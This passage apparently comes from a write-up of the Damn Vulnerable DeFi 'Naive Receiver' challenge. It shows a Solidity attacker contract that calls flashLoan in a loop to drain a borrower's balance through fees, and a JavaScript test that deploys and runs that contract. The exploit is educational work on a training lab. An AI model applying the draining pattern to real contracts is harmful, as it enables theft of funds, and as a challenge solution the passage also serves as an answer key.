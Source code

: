 ```solidity

    function run(address _borrower) public {
        
        while(address(_borrower).balance > 0){
            lenderPool.flashLoan(_borrower, 0);
        }

    }

}

```

`naive-receiver.challenge.js`:
```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        const attack = await (await ethers.getContractFactory('AttackNaiveReceiver', attacker)).deploy(this.pool.address);
        await attack.run(this.receiver.address);

    });

```

You can find the complete code [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/test/naive-receiver/naive-receiver.challenge.js) and [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/contracts/attacker-contracts/AttackNaiveReceiver.sol).


## 4) References

- [ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)